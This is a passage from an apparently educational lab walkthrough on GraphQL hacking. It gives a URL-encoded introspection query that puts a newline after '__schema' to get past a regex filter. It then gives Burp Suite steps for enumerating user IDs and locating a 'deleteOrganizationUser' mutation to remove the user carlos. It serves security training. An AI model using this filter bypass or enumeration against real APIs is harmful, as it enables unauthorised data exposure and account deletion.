 ```
        kind
        name
      }
    }
  }
}

```


Encoded URL query
```HTTP
/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```

4. Notice that the response now includes full introspection details. This is because the server is configured to exclude queries matching the regex `"__schema{"`, which the query no longer matches even though it is still a valid introspection query.


**Now Exploit the vulnerability**

1. Right-click the request and select **GraphQL > Save GraphQL queries to site map**.
    
2. Go to **Target > Site map** to see the API queries. Use the **GraphQL** tab and find the `getUser` query. Right-click the request and select **Send to Repeater**.
    
3. In Repeater, send the `getUser` query to the endpoint you discovered.
    
    Notice that the response returns:
```JSON
{ "data": { 
"getUser": null 
} 
}
```

4.  Click on the GraphQL tab and change the `id` variable to find `carlos`'s user ID. In this case, the relevant user ID is `3`.
    
3. In **Target > Site map**, browse the schema again and find the `deleteOrganizationUser` mutation. Notice that this mutation takes a user ID as a parameter.
    
